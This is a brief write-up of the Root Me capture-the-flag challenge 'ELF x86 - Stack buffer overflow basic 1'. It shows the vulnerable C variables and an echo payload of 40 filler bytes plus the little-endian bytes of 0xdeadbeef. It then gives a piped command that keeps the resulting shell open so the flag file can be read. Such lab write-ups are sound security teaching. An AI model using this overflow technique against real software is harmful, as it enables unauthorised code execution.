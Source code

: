 # Root Me System Challenges
## ELF x86 - Stack buffer overflow basic 1
```c
int check = 0x04030201;
char buf[40];
```
Buffer owerflow attack.

The payload is 
```
40 * A : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
We want check to be 0xdeadbeef, so :
0xdeadbeef => efbeadde (little endian)

Exploit is : 
```
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"
```

Command to execute : 
```
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" | . ch13
```
The shell closes instantly, so we need to do : 
```
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat) | ./ch13
```

We can then do : cat .passwd
to get the key.
